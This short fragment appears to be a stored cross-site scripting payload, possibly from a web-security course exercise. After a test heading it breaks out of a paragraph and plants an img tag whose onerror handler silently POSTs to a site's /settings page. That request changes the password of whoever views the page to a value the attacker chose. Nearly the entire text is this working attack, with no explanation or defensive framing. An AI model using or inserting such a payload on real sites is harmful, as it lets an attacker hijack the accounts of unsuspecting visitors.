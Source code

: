 <h1>test</h1>
"</p><img src=a onerror=fetch("https://cats.is-course.ru/settings", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "password=CatsRuletheWorld1%21&confirm-password=CatsRuletheWorld1%21"
});/>"<p>
